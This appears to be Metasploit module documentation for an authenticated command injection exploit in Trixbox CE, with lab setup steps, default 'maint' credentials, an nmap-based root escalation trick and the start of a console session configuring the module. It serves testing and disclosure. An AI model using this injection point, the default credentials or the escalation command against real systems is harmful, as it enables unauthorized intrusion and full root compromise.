 ## Vulnerable Application

### Description

  This module exploits an authenticated OS command injection
  vulnerability found in Trixbox CE version 1.2.0 to 2.8.0.4
  inclusive in the "network" POST parameter of the
  "/maint/modules/endpointcfg/endpoint_devicemap.php" page.
  Successful exploitation allows for arbitrary command execution
  on the underlying operating system as the "asterisk" user.
  Users can easily elevate their privileges to the "root" user
  however by executing "sudo nmap --interactive" followed by "!sh"
  from within nmap.

### Installation And Setup

  1. Download the latest version of Trixbox CE (i.e. [v2.8.0.4 ISO](https://netcologne.dl.sourceforge.net/project/asteriskathome/trixbox%20CE/trixbox%202.8/trixbox-2.8.0.4.iso)).
  2. Set up a new CentOS machine in VirtualBox or VMWare and load the ISO. 
  Be sure to disable any autosetup features of VMWare or VirtualBox. 
  Follow the install prompts and note the `root` password you choose to use. 
  Once `Package Installation` appears on the screen, wait for the system 
  to finish rebooting several times, after which the following screen 
  should be displayed:
  ```
  CentOS release 4.3 (Final)
  Kernel 2.6.9-34.EL on an i686

  asterisk1 login:
  ```
  3. Log into via the terminal using the username `root` and the password 
  you set for the `root` user during installation.
  4. A prompt similar to the following should be displayed:
  ```
  For access to the trixbox web GUI use this URL: http://192.168.205.144
  ```
  5. Once this prompt is displayed, take the IP address and browse 
  to the URL http://*IP ADDRESS*/maint/, then log in with the default 
  administrative credentials (`maint`:`password`).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### Trixbox CE v2.8.0.4
```
msf > use exploit/unix/webapp/trixbox_ce_endpoint_devicemap_rce
msf exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > set rhosts 192.168.1.8
rhosts => 192.168.1.8
msf exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > show options

Module options (exploit/unix/webapp/trixbox_ce_endpoint_devicemap_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  password         yes       Password to login with
   HttpUsername  maint            yes       User to login with
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.1.8      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
```